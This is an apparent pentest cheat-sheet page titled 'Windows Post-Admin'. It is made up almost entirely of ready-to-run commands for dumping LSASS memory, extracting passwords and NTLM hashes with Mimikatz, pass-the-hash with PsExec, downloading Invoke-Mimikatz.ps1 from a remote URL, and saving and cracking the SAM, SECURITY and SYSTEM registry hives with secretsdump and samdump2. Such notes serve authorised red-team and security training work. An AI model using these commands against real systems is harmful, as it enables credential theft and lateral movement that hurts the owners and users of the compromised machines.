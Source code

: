 ```yaml
---
layout: default
title: Windows Post-Admin
parent: Post-Admin/Root
---
```


# Windows Post-Admin
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

## Mimikatz
### Offline
Dump LSASS
```powershell
procdump.exe -ma lsass.exe <output path>  # use -r flag to avoid reading lsass by dumping a clone
.\rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump 624 <output path> full  # uses native comsvcs.dll
```
- Alternatively can use task manager (Processes > lsass.exe > Create Dump File)

Extract Passwords
```shell
sekurlsa::minidump <dump path>
sekurlsa::logonpasswords
```

### On Target Machine
Extracting Passwords
```shell
privilege:debug
sekurlsa::logonPasswords
```

Pass-the-Hash
```powershell
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm hash>  # Hash from previous password extraction
PsExec.exe \\<domain> cmd.exe  # Spawn cmd prompt on given domain
```

### On Target Machine (PowerShell Version) 
Get script onto target machine ([Invoke-Mimikatz.ps1](https://github.com/clymb3r/PowerShell/blob/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1))
```powershell
Invoke-WebRequest -UseBasicParsing <url> -Verbose                               # In-memory
Invoke-WebRequest -UseBasicParsing <url> -OutFile Invoke-Mimikatz.ps1 -Verbose  # Save to disk
```

Extact passwords, etc.
```powershell
Get-Help Invoke-Mimikatz
.\Invoke-Mimikatz -DumpCreds
Invoke-Mimikatz -ComputerName
```

---

## Registry Dump
Dump SAM, SECURITY and SYSTEM registry hives
```powershell
reg.exe save hklm\sam <output path>
reg.exe save hklm\security <output path>
reg.exe save hklm\system <output path>
```

Dump hashes on local machine
```shell
secretsdump.py -sam <sam> -security <security> -system <system> LOCAL  # Impacket
samdump2 <system> <sam>
```
